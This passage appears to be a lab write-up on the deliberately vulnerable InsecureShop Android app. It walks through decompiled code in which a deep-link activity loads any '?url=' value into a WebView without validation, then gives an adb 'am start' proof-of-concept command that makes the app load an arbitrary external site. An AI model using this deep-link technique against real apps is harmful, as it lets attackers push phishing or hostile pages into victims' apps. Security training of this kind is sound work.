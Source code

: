 ```java
                Intrinsics.checkExpressionValueIsNotNull(intent2, "intent");
                Uri data2 = intent2.getData();
                if (data2 != null) {
                    data = data2.getQueryParameter("url");
                }
            }
            // ...........some code truncated............. 
            if (data == null) {
                finish();
            }
            webview.loadUrl(data);
            Prefs.INSTANCE.getInstance(this).setData(data);
        }
    }
}
```

Let’s examine our code to know what it is doing:

- Getting the Intent Data and store it on a URI Object.
- If the Path of the URL contains "/web", It will take the value of the URL parameter `?url=` and store it in the variable `data`
- At the end, it loads the WebView of the variable data if it’s not null `webview.loadUrl(data);`.

By examining the code, we observed:

- The Intent used here is an implicit intent, cause it receives the data from any app.
- The specified intent data are only the `android:scheme` and `android:host` as indicated in the android manifest file.
- Any value will be passed to the URL parameter `?url=` will be loaded via a WebView. Without any validation on the URL.

Let’s Craft our exploit.

```bash
# Scheme: insecureshop
# host: com.insecureshop
# Path: /web/
# Parameter: ?url=
root@generic_x86:/ $ am start -a android.intent.action.VIEW -d insecureshop://com.insecureshop/web?url=https://itsfading.github.io
Starting: Intent { act=android.intent.action.VIEW dat=insecureshop://com.insecureshop/web?url=https://itsfading.github.io }
```

![image.png](/assets/InsecureShop/image%206.png)
